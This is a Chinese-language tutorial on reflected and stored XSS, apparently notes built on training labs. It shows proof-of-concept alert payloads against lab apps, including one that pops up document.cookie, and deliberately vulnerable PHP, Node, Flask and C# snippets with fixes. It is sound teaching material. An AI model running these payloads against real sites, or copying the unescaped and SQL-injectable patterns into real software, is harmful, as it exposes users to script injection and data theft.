# 什么是 XSS？

典型的 Web 应用程序的工作原理是从后端服务器接收 HTML 代码，并在客户端浏览器中渲染。当存在漏洞的 Web 应用程序未能正确过滤用户输入时，恶意用户可以在输入字段（例如评论/回复）中注入额外的 JavaScript 代码，这样，当其他用户查看同一页面时，就会在不知情的情况下执行这些恶意 JavaScript 代码。

XSS 漏洞仅在客户端执行，因此不会直接影响后端服务器。它们只会影响执行漏洞的用户。XSS 漏洞对后端服务器的直接影响可能相对较低，但它们在 Web 应用程序中非常常见，因此属于中等风险（ low impact + high probability = medium risk ）。我们应该始终努力通过检测、修复和主动预防此类漏洞来 reduce 风险。



# XSS 攻击

XSS 漏洞可导致多种攻击，这些攻击几乎都可以通过浏览器 JavaScript 代码执行。一个基本的 XSS 攻击示例是诱使目标用户在不知情的情况下将会话 cookie 发送到攻击者的 Web 服务器。另一个示例是诱使目标浏览器执行 API 调用，从而导致恶意操作，例如将用户密码更改为攻击者预设的密码。此外，还有许多其他类型的 XSS 攻击，例如比特币挖矿和广告投放。

由于 XSS 攻击是在浏览器内部执行 JavaScript 代码，因此其范围仅限于浏览器的 JavaScript 引擎（例如 Chrome 中的 V8）。它们无法执行系统级 JavaScript 代码，因此无法实现类似系统级代码执行的功能。在现代浏览器中，它们也仅限于易受攻击网站的同一域名。尽管如此，正如上文所述，能够在用户浏览器中执行 JavaScript 代码仍然可能导致各种各样的攻击。此外，如果经验丰富的研究人员在 Web 浏览器中发现二进制漏洞（例如 Chrome 中的堆溢出漏洞），他们可以利用 XSS 漏洞在目标浏览器上执行 JavaScript 攻击，最终突破浏览器的沙箱，并在用户计算机上执行代码。

几乎所有现代 Web 应用程序中都可能存在 XSS 漏洞，并且在过去二十年中一直被积极利用。一个著名的 XSS 示例是 Samy 蠕虫 ，这是一种基于浏览器的蠕虫，它利用了社交网站 MySpace 在 2005 年的一个存储型 XSS 漏洞。当受害者浏览受感染的网页时，它会在受害者的 MySpace 页面上发布一条消息“Samy 是我的英雄”，从而触发 XSS 攻击。该消息本身也包含相同的 JavaScript 有效负载，以便在其他人浏览时重新发布同一条消息。在一天之内，超过一百万 MySpace 用户的页面上发布了这条消息。尽管这个特定的有效负载没有造成任何实际危害，但该漏洞可能被用于更邪恶的目的，例如窃取用户的信用卡信息、在浏览器中安装键盘记录器，甚至利用用户 Web 浏览器中的二进制漏洞（这在当时的 Web 浏览器中更为常见）。

# XSS 的类型

| 类型                                                                                                                                                                                  | 说明                                                                                                                                                        |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 存储型（持久型）XSS                                                                                                                                                                   | 最危险的一类 XSS。用户输入被**保存到后端数据库**，后续在页面加载时直接展示（如帖子、评论区）。                                                        |
| 反射型（非持久型）XSS                                                                                                                                                                 | 用户输入经后端服务器处理后**直接在页面回显**，但**不会被存储**（如搜索结果、错误提示）。                                                        |
| 一些网站使用客户端模板框架（例如 AngularJS）来动态渲染网页。如果这些网站以不安全的方式将用户输入嵌入到这些模板中，攻击者可能会注入自己的恶意模板表达式，从而发起 XSS 攻击。DOM 型 XSS | 另一类非持久型 XSS。用户输入**完全在客户端浏览器内处理**，**不经过后端服务器**，直接修改页面 DOM 结构（如通过客户端 HTTP 参数、锚点标签触发）。 |

# Reflected XSS 反射型

反射型 XSS 发生于 HTTP 请求中用户提供的数据，未经严格验证或过滤，就被直接包含并输出在网页源码中。当 HTTP 请求中用户提供的数据未经任何验证就包含在网页源码中时，就会发生反射型 XSS 。

它属于非持久型 (Non-Persistent) XSS，由后端服务器处理后返回。与持久型不同，它的 Payload 是一次性的，通常需要诱导受害者点击恶意链接（如带有 Payload 的错误提示页 URL）才能触发，且只影响当前点击链接的受害者。

反射型 XSS 漏洞的产生，是因为我们的输入到达后端服务器后，未经过滤与净化就直接返回给前端。
这类场景非常多，比如错误信息、确认提示等，都可能将我们的输入完整回显。
这时我们就可以尝试使用 XSS payload 来测试是否能够执行。
不过，由于这类内容通常是临时信息，一旦离开当前页面就不会再次执行，因此属于非持久型漏洞。

## 案例

### 案例1

例如下面的案例,这是一个可以添加任务列表的应用程序,我们可以尝试添加任何 test 字符串，看看它是如何处理的：


如我们所见，我们得到 Task 'test' could not be added. ，其中包含了我们的输入 test 作为错误消息的一部分。如果我们的输入没有经过过滤或清理，页面可能存在 XSS 漏洞。我们可以尝试使用 XSS 有效载荷 `<script alert(window.origin)</script>`，然后点击 Add ：



点击 Add 后，会弹出提示窗口：



在这种情况下，我们看到错误信息显示 Task '' could not be added. 。由于我们的有效载荷被包裹在 <script> 标签中，浏览器无法渲染它，因此我们看到的是空的单引号 '' 。我们可以再次查看页面源代码，以确认错误信息中包含我们的 XSS 有效载荷：

```html
<div></div>
<ul class="list-unstyled" id="todo">
<div style="padding-left:25px">Task '<script>alert(window.origin)</script>' could not be added.</div>
</ul>
```

可以看到，单引号中确实包含我们的 XSS 负载 '<script>alert(window.origin)</script>' 。

如果我们再次访问 Reflected 页面，则不再出现错误消息，并且我们的 XSS 有效载荷不会执行，这意味着此 XSS 漏洞确实是非存储型的。

但如果XSS漏洞是非持久的，我们该如何利用它来攻击受害者？

这取决于我们使用哪个 HTTP 请求将输入发送到服务器。我们可以通过 Firefox Developer Tools 来查看这一点，方法是按下 CTRL+Shift+I 并选择 Network 选项卡。然后，我们可以再次输入 test 并点击 Add 发送它：

如我们所见，第一行显示我们的请求是一个 GET 请求。GET 请求会将参数和数据作为 URL 的一部分发送。因此， 要利用此漏洞，我们可以发送包含我们有效载荷的URL 。要获取 URL，我们可以在发送 XSS 有效载荷后从 Firefox 的地址栏复制 URL，或者右键单击 Network 选项卡中的 GET 请求，然后选择 Copy>Copy URL 。受害者访问此 URL 后，XSS 有效载荷就会执行：



> window.origin 是 JavaScript 中只读的全局属性，用于返回当前页面的源（Origin）—— 这个 “源” 是浏览器安全模型的核心概念，由 协议 + 主机名 + 端口号 三部分组成（端口号在默认值时可省略，比如 HTTP 的 80、HTTPS 的 443）

### 案例2

一种简单的反射型跨站脚本攻击 (XSS) 漏洞是，当用户搜索某个关键词时，搜索字符串会原封不动地显示在搜索结果页面中。这种简单的场景为攻击者提供了轻易利用的目标。-

请查看以下 PHP 代码片段，并找出它可能容易受到反射型 XSS 攻击的原因。

```php
<?php
$search_query = $_GET['q'];
echo "<p>You searched for: $search_query</p>";
?>
```

如果您不熟悉 PHP ，那么 `$_GET` 是一个 PHP 数组，其中包含来自 URL 查询字符串的值。此外， `$_GET['q'] `引用查询字符串参数 `q` 。例如，在 ` http://shop.thm/search.php?q=table` 中， `$_GET['q']` 的值为 `table `。

该漏洞是由于结果页面上显示的搜索值未经过滤而导致的。因此，攻击者可以向该 URL 添加恶意脚本，并知道该脚本会被执行。例如，为了进行概念验证，可以测试以下 URL： http://shop.thm/search.php?q=<script>alert(document.cookie)</script> ，如果该网站存在漏洞，则会显示一个警告框，其中显示用户的 Cookie。

修复此代码很简单:

```php
<?php
$search_query = $_GET['q'];
$escaped_search_query = htmlspecialchars($search_query);
echo "<p>You searched for: $escaped_search_query</p>";
?>
```

PHP 函数 `htmlspecialchars() `将特殊字符转换为 HTML 实体。默认情况下， < 、 > 、 & 、 " 、 ' 等字符会被替换，以防止输入中的脚本执行。您可以在此处阅读其文档。

### 案例3

以下 Node.js 代码片段存在反射型 XSS 漏洞。请尝试找出漏洞部分并提出解决方案。

```javascript
const express = require('express');
const app = express();

app.get('/search', function(req, res) {
    var searchTerm = req.query.q;
    res.send('You searched for: ' + searchTerm);
});

app.listen(80);
```

上面的代码片段使用了 Express，这是一个流行的 Node.js Web 应用程序框架 `req.query.q` 将提取 `q` 的值。例如，在 `http://shop.thm/search?q=table` 中， `req.query.q` 值为 `table` 。最后，通过将用户提供的搜索词附加到“您搜索了：”来生成响应。

解决方案是使用 `sanitize-html` 库中的 `sanitizeHtml()` 函数。该函数会移除不安全的元素和属性，包括移除脚本标签以及其他可能用于恶意目的的元素。您可以[在此处](https://www.npmjs.com/package/sanitize-html)阅读其文档。

```javascript
const express = require('express');
const sanitizeHtml = require('sanitize-html');

const app = express();

app.get('/search', function(req, res) {
    const searchTerm = req.query.q;
    const sanitizedSearchTerm = sanitizeHtml(searchTerm);
    res.send('You searched for: ' + sanitizedSearchTerm);
});

app.listen(80);
```

另一种方法是使用 `escapeHtml()` 函数代替 `sanitizeHtml()` 函数。顾名思义， `escapeHtml()` 函数旨在转义 `<` 、 `>` 、 `&` 、 `"` 和 `'` 等字符。您可以[在此处](https://github.com/component/escape-html)查看其主页。

### 案例4

考虑以下简单的 Flask 应用程序。尝试找出其中的漏洞。

```python
from flask import Flask, request

app = Flask(__name__)

@app.route("/search")
def home():
    query = request.args.get("q")
    return f"You searched for: {query}!"

if __name__ == "__main__":
    app.run(debug=True)
```

`request.args.get()` 用于从请求 URL 访问查询字符串参数。实际上， `request.args` 将所有查询字符串参数包含在一个类似字典的对象中。例如，在 `http://shop.thm/search?q=table` 中， `request.args.get("q")` 的值为 `table` 。

由于该值取自用户，并未经任何清理或转义就插入到响应 HTML 中，因此很容易附加恶意查询。为了进行概念验证，我们可以测试以下网址： `http://shop.thm/search?q=<script>alert(document.cookie)</script> `，如果该网站存在漏洞，则会显示一个警告框，其中显示用户的 Cookie。

现在使用 html 模块中的 escape() 函数对用户输入进行转义。需要注意的是，Flask 中的 html.escape() 函数实际上是 markupsafe.escape() 的别名。它们都来自 Werkzeug 库，并且具有相同的用途：转义字符串中的不安全字符。此函数将 < 、 > 、 " 、 ' 等字符转换为 HTML 转义实体，从而屏蔽用户插入的任何恶意代码。

```python
from flask import Flask, request
from html import escape

app = Flask(__name__)

@app.route("/search")
def home():
    query = request.args.get("q")
    escaped_query = escape(query)
    return f"You searched for: {escaped_query}!"

if __name__ == "__main__":
    app.run(debug=True)
```

### 案例5

下面的代码片段是使用 ASP.NET C# 创建的。

```c#
public void Page_Load(object sender, EventArgs e)
{
    var userInput = Request.QueryString["q"];
    Response.Write("User Input: " + userInput);
}
```

上面的代码使用了 Request.QueryString ，它返回一个由关联字符串键和值组成的集合。在上面的例子中，我们关注与键 q 关联的值，并将其保存在变量 userInput 中。最后，通过将 userInput 附加到另一个字符串来创建响应。

解决方案在于将用户输入编码为 HTML 安全字符串。ASP.NET C# 提供了 HttpUtility.HtmlEncode() 方法，该方法将各种字符（例如 < 、 > 和 & ）转换为它们各自的 HTML 实体编码。

```c#
using System.Web;

public void Page_Load(object sender, EventArgs e)
{
    var userInput = Request.QueryString["q"];
    var encodedInput = HttpUtility.HtmlEncode(userInput);
    Response.Write("User Input: " + encodedInput);
}
```

### 案例6

来自[portswigger.net](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

本实验室的搜索功能中存在一个简单的反射型跨站脚本漏洞。要解决实验问题，请执行跨站脚本攻击，调用 alert 函数。



尝试使用payload `<scritpt>alert(1)</script>`

页面显示:



## 查找和测试反射型 XSS 漏洞

手动测试反射型 XSS 漏洞涉及以下步骤：

* 测试每个入口点。 分别测试应用程序 HTTP 请求中每个入口点的数据。这包括 URL 查询字符串和消息正文中的参数或其他数据，以及 URL 文件路径。测试还包括 HTTP 标头，尽管只有通过某些 HTTP 标头才能触发的类似 XSS 的行为在实践中可能无法被利用。
* **提交随机字母数字值。** 对于每个入口点，提交一个唯一的随机值，并确定该值是否反映在响应中。该值应设计为能够通过大多数输入验证，因此需要足够短并且仅包含字母数字字符。但它需要足够长，以使响应中出现意外匹配的可能性极小。通常，大约 8 个字符的随机字母数字值是理想的。您可以使用 Burp Intruder 的[数字有效载荷](https://portswigger.net/burp/documentation/desktop/tools/intruder/payloads/types#numbers)和随机生成的十六进制值来生成合适的随机值。并且，您可以使用 Burp Intruder 的 [grep 有效载荷设置](https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/settings#grep-payloads)来自动标记包含提交值的响应。
* 确定反射上下文。 对于响应中每个反射随机值的位置，确定其上下文。这可能是 HTML 标签之间的文本、可能被引用的标签属性内、JavaScript 字符串内等等。
* **测试候选有效载荷。** 根据反射的上下文，测试初始候选 XSS 有效载荷，如果它在响应中未经修改地反射，则会触发 JavaScript 执行。测试有效载荷的最简单方法是将请求发送到 [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater) ，修改请求以插入候选有效载荷，发出请求，然后检查响应以查看有效载荷是否有效。一种有效的工作方法是保留请求中的原始随机值，并将候选 XSS 有效载荷放在其之前或之后。然后在 Burp Repeater 的响应视图中将随机值设置为搜索词。Burp 将突出显示搜索词出现的每个位置，让您快速找到反射。
* **测试替代有效载荷。** 如果候选 XSS 有效载荷已被应用程序修改或完全阻止，则您需要测试可能根据反射上下文和正在执行的输入验证类型发起有效 XSS 攻击的替代有效载荷和技术。有关更多详细信息，请参阅[跨站点脚本上下文](https://portswigger.net/web-security/cross-site-scripting/contexts)
* 在浏览器中测试攻击。 最后，如果你成功找到了一个似乎可以在 Burp Repeater 中运行的有效载荷，请将攻击转移到真实的浏览器（通过将 URL 粘贴到地址栏中，或在 Burp Proxy 的拦截视图中修改请求），看看注入的 JavaScript 是否确实执行了。通常，最好执行一些简单的 JavaScript，例如 alert(document.domain) 如果攻击成功，它会在浏览器中触发一个可见的弹出窗口。

# Stored XSS存储型

存储型 XSS 或持久型 XSS 是一种 Web 应用程序安全漏洞，当应用程序存储用户提供的输入，并在未经适当清理或转义的情况下将其嵌入到提供给其他用户的网页中时，就会发生这种情况。示例包括 Web 论坛帖子、产品评论、用户评论和其他数据存储。换句话说，当用户输入被保存在数据存储中，并在未经充分转义的情况下被嵌入到提供给其他用户的网页中时，就会发生存储型 XSS 。

如果我们注入的 XSS 有效载荷被存储在后端数据库中，并在用户访问页面时被检索，这意味着我们的 XSS 攻击是持久性的，可能会影响任何访问该页面的用户。这使得存储型 XSS 攻击最为严重，因为它影响范围更广，任何访问该页面的用户都可能成为攻击的受害者。此外，存储型 XSS 攻击可能难以移除，并且可能需要从后端数据库中删除恶意代码。



## 案例

### 案例1

这个网页是一个简单的 To-Do List 应用，我们可以向其中添加项目。我们可以尝试输入 test 并按回车键添加新项目，看看页面是如何处理的：



正如我们所见，我们的输入已显示在页面上。如果**未对我们的输入进行任何清理或过滤**，则该页面可能存在跨站脚本攻击 (XSS) 漏洞。

我们可以使用以下基本的 XSS 负载来测试页面是否容易受到 XSS 攻击：

```javascript
<script>alert(window.origin)</script>
```

我们使用此有效载荷，因为它是一种非常容易识别的方法，可以知道我们的 XSS 有效载荷何时成功执行。假设页面允许任何输入且不进行任何清理。在这种情况下，在我们输入有效载荷后或刷新页面时，应该会立即弹出一个警告框，其中包含执行有效载荷的页面的 URL：



正如我们所见，我们确实收到了警报，这意味着该页面存在 XSS 漏洞，因为我们的有效载荷已成功执行。我们可以通过按 CTRL+U 或右键单击并选择 View Page Source 来查看页面源代码，从而进一步确认这一点，并且应该可以在页面源代码中看到我们的有效载荷：

```html
<div></div><ul class="list-unstyled" id="todo"><ul><script>alert(window.origin)</script>
</ul></ul>
```

> 若页面使用了跨域 iframe（不同表单可能放在不同域名的 iframe 里），弹窗显示的 window.origin 会暴露当前 XSS payload 执行的域名，通过这个域名就能对应到 “承载该域名 iframe 的那个表单”，最终确认哪个表单存在漏洞。许多现代 Web 应用会利用跨域 iframe 来处理用户输入 —— 这样一来，即便 Web 表单存在 XSS 漏洞，也不会影响主应用的安全。这也是我们选择在弹窗中显示 window.origin 的值、而非 “1” 这类静态值的原因

由于某些现代浏览器可能会在特定位置阻止 JavaScript 的 alert() 函数，因此了解一些其他基本的 XSS 攻击载荷有助于验证 XSS 是否存在。其中一个 XSS 攻击载荷是 <plaintext> ，它会阻止渲染其后的 HTML 代码，并将其显示为纯文本。另一个容易识别的载荷是 `<script>print()</script>` ，它会弹出浏览器的打印对话框，而浏览器不太可能阻止此对话框。

为了验证有效载荷是否持久存储在后端，我们可以刷新页面，看看是否会再次收到警报。如果会，我们会发现即使页面刷新后仍然会收到警报，这证实了这确实是一个 Stored/Persistent XSS 漏洞。这种情况并非我们独有，任何访问该页面的用户都会触发 XSS 有效载荷并收到相同的警报。

### 案例2

以下是一段易受攻击的php代码,他接收用户评论,保存到数据库中,之后再显示到屏幕上

```php
// Storing user comment
$comment = $_POST['comment'];
mysqli_query($conn, "INSERT INTO comments (comment) VALUES ('$comment')");

// Displaying user comment
$result = mysqli_query($conn, "SELECT comment FROM comments");
while ($row = mysqli_fetch_assoc($result)) {
    echo $row['comment'];
}
```

我们关注的是存储型跨站脚本攻击（XSS），因为 SQL 注入攻击不在本讨论范围内。主要问题在于，这条评论会被保存，并在未经任何清理的情况下与其他评论一起显示出来。

在将每条评论显示在屏幕上之前，我们会使用 htmlspecialchars() 函数将其转换为 HTML 实体。因此，任何存储型 XSS 攻击都无法到达最终用户的浏览器。

```php
// Storing user comment
$comment = mysqli_real_escape_string($conn, $_POST['comment']);
mysqli_query($conn, "INSERT INTO comments (comment) VALUES ('$comment')");

// Displaying user comment
$result = mysqli_query($conn, "SELECT comment FROM comments");
while ($row = mysqli_fetch_assoc($result)) {
    $sanitizedComment = htmlspecialchars($row['comment']);
    echo $sanitizedComment;
}
```

### 案例3

以下 JavaScript 代码读取用户提交并保存在数据库表中的评论。我们假设 comments 数组已从数据库中填充数据。请找出其易受存储型 XSS 攻击的原因以及如何解决该问题。

```javascript
app.get('/comments', (req, res) => {
  let html = '<ul>';
  for (const comment of comments) {
    html += `<li>${comment}</li>`;
  }
  html += '</ul>';
  res.send(html);
});
```

上述代码的主要问题在于，它会读取用户在 comment 中保存的输入（来自 comments 数组），并将其显示为 HTML 代码的一部分。因此，当其他用户以 HTML 形式查看该用户的评论时，浏览器会执行注入到其中的所有脚本。

解决方案的一部分是在向用户显示 HTML 之前对其进行清理。我们可以使用 sanitizeHTML() 函数移除允许列表之外的 HTML 元素。通常，我们期望允许使用粗体和斜体（ <b> 和 <i> ）等基本文本格式，但我们会移除潜在危险或不安全的元素，例如 <script> 和 <onload> 。

```javascript
const sanitizeHtml = require('sanitize-html');

app.get('/comments', (req, res) => {
  let html = '<ul>';
  for (const comment of comments) {
    const sanitizedComment = sanitizeHtml(comment);
    html += `<li>${sanitizedComment}</li>`;
  }
  html += '</ul>';
  res.send(html);
});
```

### 案例4

以下代码使用了 Flask 框架。现在，您可以预料到这段代码中可能存在一些错误。

```python
from flask import Flask, request, render_template_string
from flask_sqlalchemy import SQLAlchemy

app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
db = SQLAlchemy(app)

class Comment(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    content = db.Column(db.String, nullable=False)

@app.route('/comment', methods=['POST'])
def add_comment():
    comment_content = request.form['comment']
    comment = Comment(content=comment_content)
    db.session.add(comment)
    db.session.commit()
    return 'Comment added!'

@app.route('/comments')
def show_comments():
    comments = Comment.query.all()
    return render_template_string(''.join(['<div>' + c.content + '</div>' for c in comments]))
```

第一个问题是，` comment_content 被设置为用户表单提交的内容，而该内容未经任何过滤就从 request.form['comment'] 获取。这本身就为存储型 XSS 和 SQL 注入漏洞埋下了隐患。此外，当用户想要查看评论时，评论内容没有进行转义就直接显示出来，这又是存储型 XSS 攻击的绝佳温床。

我们致力于修复存储型跨站脚本攻击（XSS）漏洞。我们需要确保数据库中不保存任何恶意脚本；此外，我们会在将内容显示为 HTML 之前对其进行转义。

```python
from flask import Flask, request, render_template_string, escape
from flask_sqlalchemy import SQLAlchemy
from markupsafe import escape

app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///site.db'
db = SQLAlchemy(app)

class Comment(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    content = db.Column(db.String, nullable=False)

@app.route('/comment', methods=['POST'])
def add_comment():
    comment_content = request.form['comment']
    comment = Comment(content=comment_content)
    db.session.add(comment)
    db.session.commit()
    return 'Comment added!'

@app.route('/comments')
def show_comments():
    comments = Comment.query.all()
    sanitized_comments = [escape(c.content) for c in comments]
    return render_template_string(''.join(['<div>' + comment + '</div>' for comment in sanitized_comments]))
```

使用了 escape() 函数来确保用户提交的评论中的所有特殊字符都被替换为 HTML 实体。正如您所料，字符 & 、 < 、 > 、 ' 和 " 被转换为 HTML 实体（ & 、 < 、 > 、 ' 和 " ）。我们做了两处更改：

虽然用户提交的输入 request.form['comment'] 是逐字保存的，但是每个保存的评论 c 的内容都会经过 escape() 函数，然后发送到用户的浏览器以 HTML 形式显示。

### 案例5

以下 C# 代码存在多个漏洞。请快速浏览以下代码，思考需要修改哪些内容。

```c#
public void SaveComment(string userComment)
{
    var command = new SqlCommand("INSERT INTO Comments (Comment) VALUES ('" + userComment + "')", connection);
    // Execute the command
}

public void DisplayComments()
{
    var reader = new SqlCommand("SELECT Comment FROM Comments", connection).ExecuteReader();
    while (reader.Read())
    {
        Response.Write(reader["Comment"].ToString());
    }
    // Execute the command
}
```

在上述代码中，我们发现的一个漏洞是存储型跨站脚本攻击（XSS）。系统会将用户输入的任何评论原封不动地存储起来，然后显示给其他用户。另一个漏洞是 SQL 注入，但这超出了本讨论范围。

在将 userComment 评论显示为网页的一部分之前，使用 HttpUtility.HtmlEncode() ) 方法修复了存储型 XSS 。（如果您感兴趣的话，SQL 注入漏洞是通过使用参数化 SQL 查询（单独传递值，而不是通过字符串连接构建 SQL 查询）来修复的。这可以使用 SqlCommand 对象中的 Parameters.AddWithValue() 方法实现。

```c#
using System.Web;

public void SaveComment(string userComment)
{
    var command = new SqlCommand("INSERT INTO Comments (Comment) VALUES (@comment)", connection);
    command.Parameters.AddWithValue("@comment", userComment);
}

public void DisplayComments()
{
    var reader = new SqlCommand("SELECT Comment FROM Comments", connection).ExecuteReader();
    while (reader.Read())
    {
        var comment = reader["Comment"].ToString();
        var sanitizedComment = HttpUtility.HtmlEncode(comment);
        Response.Write(sanitizedComment);
    }
    reader.Close();
}
```

### 案例6

